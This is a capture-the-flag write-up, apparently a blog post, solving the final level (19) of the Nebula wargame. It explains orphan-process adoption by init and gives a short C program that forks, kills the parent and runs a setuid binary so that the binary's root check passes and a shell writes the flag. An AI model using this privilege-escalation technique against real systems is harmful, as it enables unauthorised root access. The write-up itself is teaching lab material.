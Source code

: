 <h3>Level 19</h3>
We now arrive at the final level of Nebula.  This level checks the owner of the calling process and, if root, pops a shell.  This level was kinda neat because it requires you to have an understanding of how forking and parent/child processing works; and if you know that, it's pretty easy.  In this level we're going to exploit an [orphan process](http://www.geekride.com/orphan-zombie-process/) and its reclamation process.  When a parent of a child process terminates, the child process stays alive and becomes an orphan process.  This orphan process is automatically reclaimed by an init process:

```
Parent generates child process:
            -- child
           /
parent ---/

Parent dies:
        -- child
       X
x ----/

init process discovers child and adopts:
         -- child
        /
init---/
```

So we want to fork off a process and kill the parent before it calls flag19.  Then, when it goes to stat the process, it will stat init instead of us thereby assuming the role of root.  Here's the code for achieving that:

```
#include <stdlib.h>

void main(void){
    pid_t pid;
    char cmd[]   = "/home/flag19/flag19";
    char *argv[] = {"/bin/sh", "-c", "/bin/getflag > /tmp/flagged"};

    switch( pid = fork() ){
        case -1:
            perror("failed to fork\n");
        case 0:
            // execute command when parent dies
            sleep(2);
            execvp(cmd, argv);
        default:
            sleep(1); // wait a sec
            exit(1); // ok kill parent
        }
}
```

And flag was waiting for us in `/tmp/flagged`.
